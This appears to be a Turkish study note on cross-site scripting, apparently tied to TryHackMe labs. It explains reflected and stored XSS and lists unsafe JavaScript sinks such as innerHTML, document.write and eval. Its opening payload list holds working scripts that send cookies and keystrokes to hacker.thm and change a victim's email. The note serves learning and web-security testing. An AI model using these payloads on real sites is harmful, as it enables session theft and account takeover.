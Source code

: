 # PAYLOADS

* `<script>alert('XSS');</script>` : Sitede js kodu çalıştırılabilir mi anlamak için yapılan basit bir popup komutu.

* `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

* `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>` : Keylogger

* `<script>user.changeEmail('attacker@hacker.thm');</script>`

## Reflected XSS

Eğer bir web uygulaması kullanıcı tarafından girilen verileri yeterince kontrol etmez ve bu verileri doğrudan web sayfasının kaynak koduna eklerse burda bir **Reflceted XSS** açığı oluşabilir.

## Stored XSS
Adından da anlaşılacağı gibi, XSS verisi web uygulamasında (örneğin bir veritabanında) depolanır ve daha sonra diğer kullanıcılar siteyi veya web sayfasını ziyaret ettiğinde çalıştırılır. 

---

## Kaynak kodunda hangi güvenli olmayan JavaScript kodunu aramalıyız ?

### InnerHTML Kullanımı:
innerHTML özelliğinin kullanımı, kullanıcı tarafından sağlanan verilerin doğrudan HTML içine yerleştirildiği bir durumu işaret edebilir. Bu, kötü niyetli kullanıcıların HTML ve JavaScript enjekte etmesine olanak tanıyabilir.

### Document.Write Kullanımı:
`document.write` fonksiyonu, sayfanın yüklenme sırasında dinamik olarak içeriği değiştirmek için kullanılır. Ancak, bu yöntem kullanıcı girişlerini kontrol etmeden doğrudan içerik ekleyebilir ve güvenlik riskleri oluşturabilir.

### eval() fonksiyonu:
metin olarak verilen bir JavaScript ifadesini çalıştırır. Kullanıcı tarafından sağlanan verilerle doğrudan kullanıldığında, güvenlik açıklarına neden olabilir. eval yerine daha güvenli alternatifler kullanılmalıdır.

### Inline JavaScript Kodları:
Sayfa içindeki HTML etiketleri arasında veya `onclick`, `onmouseover`, gibi HTML özelliklerinde kullanılan inline JavaScript kodları, kullanıcı girişlerinin doğrudan çalıştırılmasına neden olabilir.

